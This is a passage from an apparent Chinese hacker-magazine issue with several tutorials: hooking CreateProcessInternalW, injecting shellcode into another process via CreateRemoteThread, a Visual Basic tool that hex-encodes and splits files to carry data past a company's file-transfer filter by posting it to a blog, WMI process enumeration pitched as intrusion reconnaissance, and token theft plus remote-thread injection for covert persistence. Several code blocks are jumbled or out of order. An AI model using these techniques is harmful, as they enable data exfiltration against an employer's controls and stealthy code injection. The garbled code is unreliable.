            lpProcessAttributes,
            lpThreadAttributes,
            bInheritHandles,
            dwCreationFlags,
            lpEnvironment,
            lpCurrentDirectory,
            lpStartupInfo,
            lpProcessInformation,
            hNewToken);
        */
    }

    // 有时编译器可能会启用内联函数，导致无法使用修改过的 Proxy_CreateProcessInternalW
    // 所以，可能需要用汇编的方式来调用代理函数
    // WINAPI 使用 __stdcall 调用约定，需要从右向左压栈
    __asm {
        // ...
    }
}
```

```cpp
push dword ptr [hNewToken]
push dword ptr [lpProcessInformation]
push dword ptr [lpStartupInfo]
push dword ptr [lpCurrentDirectory]
push dword ptr [lpEnvironment]
push dword ptr [dwCreationFlags]
push dword ptr [bInheritHandles]
push dword ptr [lpThreadAttributes]
push dword ptr [lpProcessAttributes]
push dword ptr [lpCommandLine]
push dword ptr [lpApplicationName]
push dword ptr [hToken]
// 调用代理函数
call Proxy_CreateProcessInternalW

else {
    return FALSE;
}

void CP()
{
    // CreateProcessW 的第二个参数为 LPWSTR（可写缓冲区）
    wchar_t szFile[MAX_PATH] = _T("C:\\Windows\\notepad.exe ");

    PROCESS_INFORMATION piProcInfo;
    STARTUPINFO siStartInfo;

    memset(&piProcInfo, 0, sizeof(PROCESS_INFORMATION));
    memset(&siStartInfo, 0, sizeof(STARTUPINFO));
    siStartInfo.cb = sizeof(STARTUPINFO);
    siStartInfo.wShowWindow = SW_SHOWNORMAL;

    BOOL bStatus = CreateProcessW(
        NULL,
        szFile,
        NULL,
        NULL,
        0,
        0,
        NULL,
        NULL,
        &siStartInfo,
        &piProcInfo);

    CloseHandle(piProcInfo.hThread);
    CloseHandle(piProcInfo.hProcess);
    _tprintf(_T("CreateProcess Mode Status = %d\n"), bStatus);
}

void WE()
{
    // 使用 WinExec 的方式来创建进程
    UINT uStatus = WinExec("C:\\Windows\\notepad.exe", SW_SHOWNORMAL);
    _tprintf(_T("WinExec Mode Status = %d\n"), uStatus);
}
```

前面的定义和准备工作都完成了，最后就是 Hook 这个函数了，这里为了简化说明就直接在入口点 Hook 这个函数了，大家可以根据自己的需要做适当修改：

```cpp
int main()
{
    // 设置显示输出方式
    _tsetlocale(LC_ALL, _T("Chinese-simplified"));

    // 得到 CreateProcessInternalW 的地址
    HMODULE hKernel32 = GetModuleHandle(_T("Kernel32.dll"));
    fn_CreateProcessInternalW =
        (FN_CreateProcessInternalW)GetProcAddress(
            hKernel32,
            "CreateProcessInternalW");

    if (fn_CreateProcessInternalW)
    {
        // ...
    }

    _tprintf(_T("GetProcAddress failed.\n"));
    _tscanf(_T("%*c"));
    return 0;

    // Hook CreateProcessInternalW 函数
    Hook(fn_CreateProcessInternalW, Fake_CreateProcessInternalW,
         Proxy_CreateProcessInternalW);
    // 这两种方式创建进程都将被拦截
    WE();
    CP();
    // 卸载 Hook
    UnHook(fn_CreateProcessInternalW,
           Proxy_CreateProcessInternalW);

    _tprintf(_T("finished.\n"));
    _tscanf(_T("%*c")); // 暂停
    return 0;
}
```

图4

本代码在 Windows7 + VS2010/VC6 下编译通过。至此代码就完成了，看看效果图，如图4所示。

## 总结

这种方式的 Hook 巧妙地利用了 imp 来实现跳转，实现了无缝衔接。现在就算是多线程的应用程序，只要用了这种方式，就不用担心因频繁地修改函数头而导致那样那样的错误了。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：加载 DLL、导出函数

# 再谈加载 DLL

文/图 Magic dog

关于如何让非己方进程加载指定的 DLL，估计最早的思路来源于《Windows 核心编程》中通过 CreateRemoteThread 函数，让目标进程调用 LoadLibrary 来加载指定的 DLL。具体代码如下：

```cpp
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, pid);
PVOID lpParam = VirtualAllocEx(hProcess, 0, MAX_PATH,
                               MEM_COMMIT, PAGE_READWRITE);
BOOL as = WriteProcessMemory(hProcess, lpParam,
                             dllfullpath, MAX_PATH, 0);
HMODULE hm = GetModuleHandle(L"kernel32.dll");
LPVOID FD = (LPTHREAD_START_ROUTINE)GetProcAddress(hm, "LoadLibraryW");
HANDLE X = CreateRemoteThread(hProcess, 0, 0,
                              (LPTHREAD_START_ROUTINE)FD,
                              lpParam, 0, 0);
```

CreateRemoteThread 返回的线程句柄可以判断线程是否执行完毕。这似乎有点投机的意思，并且也显得很不灵活。主要有如下两个弊端：

- 1. 无法执行 DLL 的导出函数，只能利用 DLL 加载时系统会执行 DllMain 函数来间接达到我们的目的。但是如果要执行的函数需要提交参数，那么会更麻烦（参考进程间通信的办法）。
- 2. 这似乎是无法避免的一个问题。那就是：如果你在 DllMain 及其子函数中建立了线程，那么它并不会马上启动。而是当系统处理完一些作业（包括执行 DllMain 后）才会启动线程。

如果建立的线程不需要与“外界”交换数据，那么看上去不是很致命。我们来看下面的代码：

```cpp
int i = 0;
LPTHREAD_START_ROUTINE execute()
{
    printf("%d,", i);
}
while (i < 5)
{
    HANDLE hthread = 0;
    hthread = CreateThread(0, 0, execute, 0, 0, 0);
    WaitForSingleObject(hthread, 100);
    i++;
}
```

看上去作者是想将小于5的正整数都打印出来。作者通过 WaitForSingleObject 函数给予每个线程至多 0.1s 的执行时间，正常情况下完全可以保证逐条线程依次执行完毕，并正确打印出：0,1,2,3,4。

但是如果将上面的代码置于 DllMain 中，那么打印出来的结果（假设可以看到 printf 数据）肯定会是：4,4,4,4,……并且个数不一定是5个，很大概率会少于5个。看来有时候我们不得不抛弃 Jeffrey Richter 的办法，从而另谋出路。回到函数 CreateRemoteThread，我们再看看它的原型：

```cpp
HANDLE CreateRemoteThread(
  HANDLE hProcess,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  SIZE_T dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID lpParameter,
  DWORD dwCreationFlags,
  LPDWORD lpThreadId
);
```

第四个参数表示例程（函数）的地址，第五个是传递给这个例程的参数。并且规定提交的例程必须是 LPTHREAD_START_ROUTINE 类型。LPTHREAD_START_ROUTINE 类型目的是表示该例程只接受一个 LPVOID 类型的参数（大家达成协议）。

事实上，提交一个函数的地址给 CreateRemoteThread 函数后，CreateRemoteThread 会让目标进程新建一个线程，然后从这个提交的函数地址开始执行。注意：这个函数地址以及函数体显然是在目标进程内！嗯，有点 ShellCode 的感觉。

所以至此，我们完全可以抛弃 Jeffrey Richter 的做法，思路如下：

- 1. 向目标进程申请内存空间。
- 2. 向申请到的空间写入我们的二进制代码。
- 3. 通过 CreateRemoteThread 提交我们刚才申请的空间的首地址。

所以，现在的工作重点放在了这段写入目标进程空间的二进制代码上。虽然编写上似乎吃力了一点，但是我们豁然开朗了。

另外，如果需要提交参数，还得申请一次空间用来保存参数。如果是多个参数，那么把你要提交的参数放在结构体里，届时传递结构体的地址即可。

我们来看实现这段二进制代码的汇编形式：

```asm
00401090 53            push ebx
00401091 56            push esi
00401092 8B74240C      mov esi,dword ptr [esp+C]
...（汇编代码省略）...
004010C5 8B8E10010000  mov ecx,dword ptr [esi+100]
```

```asm
004010CB 50            push eax
004010CC FFD1          call ecx
004010CE 8B9621010000  mov edx,dword ptr [esi+121]
...（汇编代码省略）...
004010F7 C3            retn
```

可以发现上面的 call 都是从参数空间里读取的函数地址。而这些地址是由负责注入的 exe 事先获取并写入到目标进程空间的。由于它们运行在同一个系统上，所以 API 地址是不变的，可以通用。

如果还不放心，那么可以完全参考通用 ShellCode 的写作（个人认为没必要）。核心的搞定了，我们现在来看 exe 部分。

```cpp
const int bin_size = 104;
char bin[bin_size] = {
  0x53,0x56,0x8B,0x74,0x24,0x0C,
  ...
  0x33,0xC0,0x5B,0xC3
};
// 这个就是汇编代码的二进制 code
PVOID lpParam = VirtualAllocEx(hProcess, 0, 600,
                               MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
...
char *local_lpParam = (char*)malloc(512);
ZeroMemory(local_lpParam, 512);
...（C 代码省略）...
```

```c
strcpy(local_lpParam, self_path);
// LoadLibraryA--0x104
int addr = (int)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
...
addr = (int)GetProcAddress(GetModuleHandle("kernel32.dll"), "GetProcAddress");
...
addr = (int)GetProcAddress(GetModuleHandle("kernel32.dll"), "FreeLibrary");
...
addr = (int)GetProcAddress(GetModuleHandle("kernel32.dll"), "ExitThread");
...
strcpy((char*)temp, exp_func_name);
char *p = (char*)temp;
```

```c
p += 0xD; // strlen("Deleteallit")+1 + 偏移
*temp = event_type; // 0x121
strcpy((char*)temp, keyword); // 0x125
bool ret = WriteProcessMemory(hProcess, lpParam3, local_lpParam, 512, 0);
PVOID flc = VirtualAllocEx(hProcess, 0, 255,
                           MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE);
ret = WriteProcessMemory(hProcess, flc, bin, bin_size, 0); // 写入二进制code
HANDLE h = CreateRemoteThread(hProcess, 0, 0,
                              (LPTHREAD_START_ROUTINE)flc, lpParam, 0, 0);
```

这样，我们就可以达到注入一个进程，然后装入我们的 DLL，目标进程调用导出函数 Deleteallit，并传入参数。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：VB、文件传输

# 实战“文件传输过滤系统”

文/图 广东工业大学 胡文亮

我有个师姐进了一间金融公司工作，这间公司可能是出于安全考虑（防范病毒和商业敏感数据外泄），使用“文件传输过滤系统”禁止了一切文件的上传下载（但仍可以上网）以及使用 U 盘带入带离数据……本文要讨论的就是如何突破这些让人烦恼的限制。

禁止使用 U 盘很简单，在 BIOS 里禁用 USB 接口即可。通常为了防止别人更改设置，还可以加上 BIOS 密码。破解方法虽然存在，但在实际环境中并不现实，且容易被发现。

禁止上传下载就是要过滤端口，我在网友“渔家傲”的博客上看到一份禁止所有上传下载的代码，主要代码如下：

```c
void DisNet()
{
    DWORD err = NO_ERROR;
    INTERFACE_HANDLE hInterface;
    WORD wVersionRequested;
    WSADATA wsaData;
    char name[255];
    char *ip;
    PHOSTENT hostinfo;
    wVersionRequested = MAKEWORD(2,0);
    if (WSAStartup(wVersionRequested, &wsaData) == 0)
    {
        if (gethostname(name, sizeof(name)) == 0)
            if ((hostinfo = gethostbyname(name)) != NULL)
                ip = inet_ntoa(*(struct in_addr *)*hostinfo->h_addr_list);
    }
    OutputDebugStringA(ip);
    PfCreateInterface(0,
        PF_ACTION_DROP,
        PF_ACTION_DROP,
        FALSE, TRUE, &hInterface);
    BYTE localIp[] = {192,168,18,100};
    RtlCopyMemory(localIp, &(*(struct in_addr *)*hostinfo->h_addr_list)->S_un.S_addr, 4);
    BYTE DesIp[] = {0,0,0,0};
}
```

```c
PBindInterfaceToIPAddress(hInterface, PF_IPV4, localIp);
FILTER_HANDLE fHandle; // 填充过滤包的规则结构
PF_FILTER_DESCRIPTOR inFilter;
inFilter.dwFilterFlags = FD_FLAGS_NOSYN;
inFilter.dwRule = 0;
inFilter.patType = PF_IPV4; // 用 IPv4 地址
inFilter.SrcAddr = localIp;  // 设置本地 IP 地址
inFilter.SrcMask = (PBYTE)"\xff\xff\xff\xff"; // 设置本地子网掩码
inFilter.wSrcPort = FILTER_TCPUDP_PORT_ANY;
inFilter.wSrcPortHighRange = FILTER_TCPUDP_PORT_ANY;
inFilter.DstAddr = 0;
inFilter.DstMask = 0;
inFilter.wDstPort = FILTER_TCPUDP_PORT_ANY;
inFilter.wDstPortHighRange = FILTER_TCPUDP_PORT_ANY;
inFilter.fLateBound = 0;
inFilter.dwProtocol = FILTER_PROTO_ANY;
PfAddFiltersToInterface(hInterface, 0, NULL, 1, &inFilter, &fHandle);
if (err != NO_ERROR) {
    OutputDebugStringA("PfAddFiltersToInterface is Wrong!\n");
    return;
}
MessageBoxA(NULL, "成功关闭全部上传下载功能", "反上传下载", 0x1000);
// 移除过滤接口
PfRemoveFilterHandles(hInterface, 1, &fHandle);
PfUnBindInterface(hInterface);
PfDeleteInterface(hInterface);
```

零）按顺序添加到一个字符串 B 里。这样进行下来，每个 n 百万字节（MB）的二进制文件就会对应有一个 2n 百万字节（MB）的文本文件。同理，把文本文件转回成二进制文件也很简单：把文本文件按两个字符一次读取，组成一个十六进制的数字，并放到字节数组里。再把字节数组输出成文件就可以了。实现的代码如下：

```vb
' 在字符串前补零
Private Function AddZero(ByVal sz As String) As String
    AddZero = String(2 - Len(sz), "0") & sz
End Function
```

```vb
' 读取文件到字节数组
Private Function ReadFile(ByVal strFileName As String, Optional ByVal lngStartPos As Long = 1, Optional ByVal lngFileSize As Long = 0) As Byte()
    On Error Resume Next
    Dim FilNum As Integer
    FilNum = FreeFile
    Open strFileName For Binary As #FilNum
    If lngFileSize = 0 Then
        ReDim ReadFile(LOF(FilNum) - lngStartPos)
    Else
        ReDim ReadFile(lngFileSize - 1)
    End If
    Get #FilNum, lngStartPos, ReadFile
    Close #FilNum
End Function

' 把字节数组内容输出成文件
Private Function WriteFile(ByVal strFileName As String, ByRef bytData() As Byte, Optional ByVal lngStartPos As Long = 0, Optional ByVal OverWrite As Boolean = True)
    On Error Resume Next
    Dim FilNum As Integer
    FilNum = FreeFile
    If OverWrite = True And Dir(strFileName) <> "" Then Kill strFileName
    Open strFileName For Binary As #FilNum
    If lngStartPos = 0 Then
        Put #FilNum, LOF(FilNum) + 1, bytData
    Else
        Put #FilNum, lngStartPos, bytData
    End If
    Close #FilNum
End Function
```

不过这段代码明显是不及格的，因为使用它之后，网页打不开，QQ 上不了，根本就不能让人使用网络。要解决此问题，就不能禁止所有端口，需要搞个端口的黑白名单。由于本文只是讨论原理而不是制作产品，所以黑白名单就待有兴趣的读者自己实现了。

有了这些软硬件上的限制，要从一部计算机带入带离数据看来真是比登天还难（有人说：你代码的前半部分实现了禁用所有端口，最后不是也实现了取消端口禁用吗？记住，别人开发出来的商用软件肯定是有保护措施的，API Hook 和“取消端口禁用则立即蓝屏”都是不错的方法）。

- 1. **声卡**：在耳机和话筒都存在的情况下，采用普通音频线在两台机器之间建立 TCP/IP 连接。
- 2. **PC Speaker**：把数据以声波的形式录制。
- 3. **键盘灯**：用 VBS 控制键盘灯闪烁代表 1 和 0。
- 4. **光驱**：使用特殊软件刻录特殊材料制成的光盘。

不过 tombkeeper 的想法也太邪乎了，一般老百姓根本用不了。经过询问，她告诉我她们公司的内部网里有全套的 Visual Studio 6.0，于是，我萌生出了一个邪恶的想法：把 bin 文件以 txt 的形式写在博客上带出去或带进来。

把二进制文件转换成文本文件的思路很简单：把二进制文件的每个字节都读出来，放到字节数组里，然后把用十进制表示的数字转换成十六进制表示的字符串 A（每个字符串两字节，不足则前补零），按顺序拼接成字符串 B。

```vb
' bin2txt
Private Sub Command1_Click()
    Dim usb() As Byte
    Dim i As Long
    usb = ReadFile(Text1.Text)
    Dim s As String
    For i = 0 To UBound(usb)
        s = s & AddZero(Hex$(usb(i)))
    Next
    Text2.Text = s
    MsgBox "Over", vbInformation
End Sub
```

```vb
' txt2bin
Private Sub Command2_Click()
    Dim usb() As Byte
    Dim i As Long, k As Long
    Dim txt2text As String
    Dim tlen As Long
    ReDim usb(Len(Text2.Text) / 2 - 1) As Byte
    txt2text = Text2.Text
    tlen = Len(txt2text)
    For i = 1 To tlen Step 2
        usb(k) = CByte(Val("&H" & Mid$(txt2text, i, 2)))
        k = k + 1
    Next
    WriteFile Text1.Text, usb
    MsgBox "Over", vbInformation
End Sub
```

```vb
End Sub
```

```vb
Next
End Function
```

代码很简单，等执行完这个 FOR 循环，字符串变量 s 就是要输出的内容了。不过，如果文件超过 10KB，这个循环过程会非常慢，让人难以忍受。VB 对变长字符串处理的优点和缺点在此同时体现了：优点是由 VB 虚拟机自动申请、释放内存并连接子字符串；缺点是全自动过程导致字符串操作速度异常缓慢。所以应该抛弃让 VB 虚拟机连接字符串的操作，改成如下代码：

```vb
'bin2txt
Private Sub Command1_Click()
    Dim usb() As Byte
    Dim i As Long
    usb = ReadFile(Text1.Text)
    Dim btmp(1) As Byte
    Dim stmp As String
    Open Text2.Text For Binary As #1
    For i = 0 To UBound(usb)
        stmp = AddZero(Hex$(usb(i)))
        btmp(0) = CByte(Asc(Mid$(stmp, 1, 1)))
        btmp(1) = CByte(Asc(Mid$(stmp, 2, 1)))
        Put #1, 2 * i + 1, btmp
    Next
    Close #1
    MsgBox "Over", vbInformation
End Sub
```

```vb
'txt2bin
Private Sub Command2_Click()
    Dim usb() As Byte
    Dim i As Long: i = 0
    Dim k As Long: k = 0
    Dim btmp As Byte
    Dim usbd() As Byte
    Dim stmp As String
    usbd = ReadFile(Text1.Text)
    ReDim usb((UBound(usbd) + 1) / 2 - 1) As Byte
    For i = 0 To UBound(usbd) Step 2
        usb(k) = CByte(Val("&H" & Chr(usbd(i)) & Chr(usbd(i + 1))))
        k = k + 1
    Next
    WriteFile Text2.Text, usb
    MsgBox "Over", vbInformation
End Sub
```

但是要把转好的文本文件复制到博客上还是有困难，因为博客有字数限制，每篇博文的最大长度为 40KB。于是我们还要把文本文件进行分割处理。分割文件的原理是：先把文件以二进制方式读取到字节数组里，然后每隔 40KB 输出一个文件（最后不足 40KB 也按 40KB 算，输出最后一个文件），文件名为 i.txt（i>=0）。合并文件的原理就是按顺序读取所有 i.txt 的内容放到字节数组里，再把字节数组输出成一个文件。实现的代码如下：

```vb
Private Const MAX_CHARS_EACH_ARTICLE As Long = 39990
```

```vb
'每篇博文的最大字数
'获得有多少个被分割的子文件数目
Private Function GetMaxTxtFileNum(ByVal szDirName As String) As Long
    Dim i As Long
    For i = 0 To 32767
        If Dir(Replace(szDirName & "\\" & CStr(i) & ".txt", "\\\\", "\\")) = "" Then
            GetMaxTxtFileNum = i - 1
            Exit Function
        End If
    Next
End Function
```

```vb
'分割文件
Private Sub Command6_Click()
    Dim i As Long
    Dim usbAry() As Byte
    Dim dwFileLen As Long
    Dim dwFilePart As Long
    Dim dwFileLastLen As Long
    If Dir(Text4.Text, vbDirectory) = "" Then MkDir Text4.Text
    dwFileLen = FileLen(Text2.Text)
    dwFilePart = dwFileLen \ MAX_CHARS_EACH_ARTICLE
    dwFileLastLen = dwFileLen - dwFilePart * MAX_CHARS_EACH_ARTICLE
    For i = 0 To dwFilePart - 1
        usbAry = ReadFile(Text2.Text, 1 + MAX_CHARS_EACH_ARTICLE * i, MAX_CHARS_EACH_ARTICLE)
        WriteFile Replace(Text4.Text & "\\" & CStr(i) & ".txt", "\\\\", "\\"), usbAry
    Next
    usbAry = ReadFile(Text2.Text, 1 + MAX_CHARS_EACH_ARTICLE * dwFilePart, dwFileLastLen)
    WriteFile Replace(Text4.Text & "\\" & CStr(dwFilePart) & ".txt", "\\\\", "\\"), usbAry
    MsgBox "Over", vbInformation
End Sub
```

```vb
'合并文件
Private Sub Command5_Click()
    Dim i As Long: i = 0
    Dim k As Long: k = 0
    Dim MaxFN As Long
    MaxFN = GetMaxTxtFileNum(Text3.Text)
    Dim dwFileLen As Long
    Dim tmpByte() As Byte
    If Dir(Text4.Text, vbDirectory) = "" Then MkDir Text4.Text
    For i = 0 To MaxFN
        tmpByte = ReadFile(Replace(Text3.Text & "\\" & CStr(i) & ".txt", "\\\\", "\\"))
        WriteFile Replace(Text3.Text & "\\" & "output.txt", "\\\\", "\\"), tmpByte, k + 1, False
        k = k + MAX_CHARS_EACH_ARTICLE
    Next
    MsgBox "Over", vbInformation
End Sub
```

把文件压缩好之后（为了达到最大压缩率，推荐使用 7-Zip），就可以用我的软件处理了。二进制文件转为文本文件，如图 1 所示。


图 1

把转换好的文本文件分割为多个 39990 字节的文件，如图 2 所示。


把被分割的文件合并为一个文本文件，如图 3 所示。


把文本文件转换成二进制文件，如图 4 所示。


这样一来，就能传输文件了。当然，压缩后文件不宜大于 400KB，因为手工复制超过 10 个的文本文档放进博客，再把博客上的文字组成超过 10 个的文本文档是一件很累人的事情。当然你可以再写一个程序，自动把所有文件的内容发到博客上，其实就是发帖机，网上有这样的源码了。不过，这种方法对付不了现在流行的“文件透明加密”。我现在空闲的时候，就在研究怎么突破“文件透明加密”。如果成功了，会第一时间投稿到《黑客防线》。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：VC、WMI、进程启动参数

# VC 使用 WMI 获取进程启动参数


文/图 GF

WMI 即 Windows Management Instrumentation（Windows 管理规范）。它是 Windows 中的一个核心管理技术，是 Microsoft 基于 Web 的企业管理（WBEM）和 Desktop Management Task Force（DMTF）工业标准的实现。它提供了一种简单的方法来管理和控制系统资源。

WMI 为访问大量的 Windows 管理数据和方法提供了一个统一的机制。WMI 通过脚本、C++ 程序接口、.NET 类（系统管理）和命令行工具（WMIC）提供了对这个信息的访问。

## 认识 WMI

在命令行下输入 `wmic`，提示 wmic 已经安装；然后便进入 wmic 命令执行模式，如图 1 所示。


此时，我们输入命令 `process`，便可以查看到进程信息，如图 2 所示。也可以直接执行一条命令：`wmic process`。系统确认安装完成后，会自动执行附加的参数命令。剩下的问题就是，我们如何能在自己的程序里实现类似……process 的功能呢？好在 Windows 提供了一组管理 WMI 的 API，即 WMI COM API。

这里 Windows 提供了一个小工具测试 WMI，我们运行 wbemtest 程序，如图 3 所示。

通过它我们可以看到 WMI 这个“数据库”里的内容。首先需要建立命名空间连接，单击 “Connect” 按钮，在弹出的框里输入命名空间，这里我们输入：`ROOT\CIMv2`，如图 4 所示。


Connect 之后可以查询我们想要的信息了。单击 “Enum Classes” 按钮枚举类（这和面向对象编程是一样的，每个命名空间存在很多类和子类）。不输入超类名，直接查询，如图 5 所示。


单击 “Query” 按钮可以查询对象信息，例如，输入：`select * from Win32_Process`，如图 6、图 7 所示。


利用 WMI COM API 查询系统信息时，我们首先要知道信息所在的命名空间，如果没有面向对象的编程经验，那么可以想象成注册表中的路径。

（这个 WQL 和 SQL 语法上倒是有点类似）写到这里，关键问题似乎多了一个，那就是如何知道自己想要的命名空间以及类名、对象名？关于这个问题，除了四处找资料文档外，等下我还会给大家一个强有力的辅助工具：WMI Administrative Tools。


## 编程实现

前面说了既然是 WMI COM API，那么编程中就会涉及 COM 的一些知识，有点烦人。来看代码吧：

```cpp
void GETProcess(wchar_t* path, wchar_t* Instances)
{
    USES_CONVERSION;
    VARIANT processname, process, cmdline;
    ZeroMemory((wchar_t*)&processname, sizeof(VARIANT));
    HRESULT hres;
    CoInitializeEx(0, COINIT_MULTITHREADED);
    // 有可能已经初始化了，就返回错误。
    CoInitializeSecurity(
        NULL,
        ...
    );
}
```

```cpp
... // COM authentication
NULL, // Authentication services
NULL, // Reserved
RPC_C_AUTHN_LEVEL_DEFAULT, // Default authentication
RPC_C_IMP_LEVEL_IMPERSONATE, // Default Impersonation
...
IWbemLocator *pLoc = NULL;
hres = CoCreateInstance(CLSID_WbemLocator, 0, CLSCTX_INPROC_SERVER, IID_IWbemLocator, (LPVOID *)&pLoc);
...
hres = pSvc->ExecQuery(bstr_t("WQL"), bstr_t(select), WBEM_FLAG_FORWARD_ONLY | WBEM_FLAG_RETURN_IMMEDIATELY, NULL, &pEnumerator);
...
while (pEnumerator) {
  HRESULT hr = pEnumerator->Next(WBEM_INFINITE, 1, &pclsObj, &uReturn);
  if (S_OK != hr) break;
  ...
}
...
CoUninitialize();
```

函数调用方式为 `GETProcess(L"ROOT\\CIMv2", L"Win32_Process")`，程序输出结果如图 8 所示。


图 8

## 一个自制的辅助工具

WMI Administrative Tools 安装成功后，运行程序 WMI CIM Studio。程序以 Web 的形式运行，如图 9 所示。


图 9

通过 WMI CIM Studio 我们可以洞悉整个 WMI 的结构。现在我们运行 WMI Object Browser，选择命名空间为 `root\CIMV2`，然后登录系统，如图 10 所示。


图 10

我们可以看到，从右边的窗口中可以获悉很多本机的信息。现在单击查找实例（对象）图标（就是那个望远镜），输入类的名字 `Win32_Process`，如图 11 所示。单击 “Add” 按钮添加到列表中，单击 “OK” 按钮完成，这样我们就查询到所有类名为 “Win32_Process” 的对象了，如图 12 所示。

作为演示，我们随便选择一个对象之后便可以看到其相关的属性了，如图 13 所示。


图 11


图 12


图 13

画框区域部分显示的分别是参数（为空）、进程名、进程 ID。它们对应的标识名和我们在程序中用到的是一样的。那么反过来，我们可以从这里发现需要的数据，在程序里查询获取。从这个列表中的展示，我们可以发现仅仅通过一个进程，便可以获取到诸多针对或不仅是针对本进程的信息（例如进程所属 Session）。这在入侵过程中，可以作为有效的信息收集手段。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键字：VC、Windows、身份切换

## 小说 Windows 下身份切换


文/图 GF

## 一些很实际的问题

本来想把标题写成《小说 Windows 下降权》，“降权”二字似乎显得简单明了一点。但是综合实际中遇到的问题，对我们而言往往需要的并不是权限的降低，而是需要某个账户的“身份”来做一些事。

最频繁出现的莫过于 system 账户（权限）切换到普通用户权限的问题，以便获取与该用户相关的数据，抑或是执行环境。对于同线程中切换用户身份的处理办法，一般采用的是模拟用户登录的方法，代码如下：

```cpp
bool imp(DWORD pid)
{
    ...
}
```

```cpp
HANDLE hToken, process;
process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
if (OpenProcessToken(process, TOKEN_ALL_ACCESS, &hToken))
{
    if (ImpersonateLoggedOnUser(hToken))
    {
        ...
    }
}
```

这里需要说句废话，被模拟登录的用户权限必然会比你当前运行程序时的权限低或者相等才行。这里我们假设是在 system 权限下进行模拟登录，通过此等举措再调用 GetUserName 后返回的用户名确实为模拟登录的用户。

但是当你通过 system 函数执行 cmd 命令 whoami 时，依然显示的是 system。截屏，漆黑一片。又或者你打开注册表，SAM 下的子键豁然于眼前。自然地，通过注册表获取类似 Favorites 路径也不是我们模拟登录的用户的（比如我在实际运行中获取到的就是 NETWORK SERVICE 用户的）。

这是一个很纠结的问题。同样的，当我们利用注册表注入 Winlogon 进程时，即使将 Impersonate 设置为 1，让 Winlogon 以登录用户权限执行我们的 DLL，但是仍旧会遇到上面的问题。我很怀疑这个 Impersonate 设置为 1 是否就是 Winlogon 执行了 ImpersonateLoggedOnUser 而已。

由于最近比较忙，没有空闲时间具体深究线程、进程权限相关以及执行环境的问题以查出此种现象的成因。不过倒是找到了两个符合需求的解决办法。

## 解决思路

目前我想到的解决思路有两个，先来说说针对进程的。所谓针对进程的，就是指需要创建一个新的进程，而这个受我们控制的进程便是完全以用户身份运行的。代码如下：

```cpp
BOOL EnableDebugPriv()
{
    HANDLE hToken;
    LUID sedebugnameValue;
    TOKEN_PRIVILEGES tkp;
    ...
}

HANDLE GetProcessHandle(LPSTR szExeName)
{
    PROCESSENTRY32 Pc = { sizeof(PROCESSENTRY32) };
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, 0);
    ...
}

int impuser(TCHAR cmdline[256])
{
    HANDLE hToken;
    HANDLE hExp = GetProcessHandle("EXPLORER.EXE");
    ...
}
```

```cpp
GetProcessHandle("EXPLORER.EXE");
if(hExp == NULL)
    return FALSE;
OpenProcessToken(hExp, TOKEN_ALL_ACCESS, &hToken);
...
if(CreateProcessAsUser(hToken, (char*)path, szParameter, NULL,
    NULL, FALSE, CREATE_DEFAULT_ERROR_MODE, NULL,
    NULL, &si, &pi))
{
    printf("CreateProcessAsUser sucessed!%d\n", GetLastError());
}

int main()
{
    impuser("whoami");
    return 0;
}
```

以上代码的功能是以普通用户身份执行 whoami 命令。这样的话，即使我们用 system 权限来运行这个代码，cmd 显示的会是系统进程 explorer.exe 所属用户的用户名（而 explorer.exe 一般是属于普通用户的）。倘若还不放心，将 whoami 换成 regedit，这个时候，SAM 键已经不能展开。再来截个屏，也显示的是 explorer.exe 所属用户的桌面。

仔细看上面的代码，其实前面部分和我文章开头处的代码大同小异。区别在于，这里拿到 explorer 进程的令牌后，选择了 CreateProcessAsUser 函数而不是 ImpersonateLoggedOnUser 函数。

至此，用户身份的切换完全实现！我们再来谈第二种解决思路，针对线程创建的思路。第一种思路确实完全解决了身份切换的问题。但是结合实际应用，尤其是针对要常驻内存且要求隐蔽性的需求来说，显得有点美中不足。

个人觉得 Ring3 上隐藏进程最好的办法是 DLL 附加进某个进程：彻底不产生新的进程。所以很自然想到了远程线程注入。好事成双的是注入线程的属性继承了创建它的父线程的属性，而这个父线程自然是属于被注入进程。简单来说，即使你是 system 权限，当你 CreateRemoteThread 某个隶属于普通用户的进程后，在这个新建立的线程里执行 whoami 会是这个普通用户的名字，截屏也是这个用户的桌面……亦即，功能上和第一种思路实现的功能完全等同。

### 衍生的问题及解决办法

额外值得一提的是，目前所讨论的身份切换，范围是已经登录的用户，或者说起码存在一个隶属于待切换用户的进程。很多时候，需要确定被注入进程属于哪个用户，又或者你的需求可能会反过来，切换到指定用户的身份。或许你会首先想到用前面模拟用户登录的方法来实现：获取指定进程的令牌→模拟登录→GetUserName()。但是我推荐一个更好的实现方式，它可以在用户状态下获取到甚至部分 system 进程的隶属用户。

```c
LPCTSTR GetProcessUserName(DWORD dwID) {
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, dwID);
    HANDLE hToken = NULL;
    BOOL bResult = FALSE;
    DWORD dwSize = 0;
    static TCHAR szUserName[256] = {0};
    TCHAR szDomain[256] = {0};
    DWORD dwDomainSize = 256;
    DWORD dwNameSize = 256;
    SID_NAME_USE SNU;
    PTOKEN_USER pTokenUser = NULL;
    // ...
}
```

```c
if (GetLastError() != ERROR_INSUFFICIENT_BUFFER) { bResult = FALSE; }
pTokenUser = (PTOKEN_USER)malloc(dwSize);
if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) { bResult = FALSE; }
if (LookupAccountSid(NULL, pTokenUser->User.Sid, szUserName, &dwNameSize, szDomain, &dwDomainSize, &SNU) != 0) {
    return szUserName;
}
return NULL;

int _tmain(int argc, _TCHAR* argv[]) {
    wprintf(L"%s", GetProcessUserName(1228));
    return 0;
}
```

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键字：VC、Windows、后门
